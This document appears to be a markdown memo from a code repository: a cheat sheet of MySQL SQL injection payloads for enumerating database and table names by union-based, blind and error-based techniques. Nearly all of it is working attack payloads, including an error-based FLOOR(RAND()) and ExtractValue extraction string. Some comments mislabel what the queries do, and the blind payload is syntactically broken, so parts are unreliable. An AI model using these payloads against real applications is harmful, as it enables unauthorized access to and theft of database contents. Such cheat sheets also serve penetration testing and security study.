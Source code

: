 
## Injection statement memo


### data storage name


```sql

SELECT database();

SELECT schema_name FROM information_schema.schemata;

```



### Table Name


- union query


    ```sql

--version=9 for MySQL 4 and version=10 for MySQL 5
UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10; /* Lists the tables in the current database*/
UNION SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database(); /* Lists tables in all user-defined databases*/
    SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema!='information_schema' AND table_schema!='mysql';

    ```



- blind


    ```sql

    AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'

    ```



- Error


    ```sql

    AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));

-- Successful in version 5.1.5.
    ```

